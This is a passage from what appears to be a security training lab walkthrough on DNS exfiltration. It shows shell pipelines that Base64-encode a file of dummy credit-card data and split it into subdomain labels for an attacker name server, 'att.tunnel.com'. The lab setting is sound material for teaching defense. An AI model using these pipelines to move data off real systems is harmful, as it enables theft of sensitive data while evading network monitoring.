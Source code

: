 Checking the content of the creds.txt file  

```

thm@victim2$ cat task9/credit.txt Name: THM-user Address: 1234 Internet, THM Credit Card: 1234-1234-1234-1234 Expire: 05/05/2022 Code: 1337 

```
	    

In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. In our case, we encode the file using Base64 as follows,  

Encoding the Content of the credit.txt File  

```
hm@victim2$ cat task9/credit.txt | base64 TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

```
	    

Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name. Let's show both ways starting with splitting for multiple DNS requests.

Splitting the content into multiple DNS requests  


```
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 

TmFtZTogVEhNLXVzZX.att.tunnel.com IKQWRkcmVzczogMTIz.att.tunnel.com NCBJbnRlcm5ldCwgVE.att.tunnel.com hNCkNyZWRpdCBDYXJk.att.tunnel.com OiAxMjM0LTEyMzQtMT.att.tunnel.com IzNC0xMjM0CkV4cGly.att.tunnel.com ZTogMDUvMDUvMjAyMg.att.tunnel.com pDb2RlOiAxMzM3Cg==.att.tunnel.com

```

In the previous command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group. 

Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.

Splitting the content into a single DNS request  

```
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ 

TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com

```
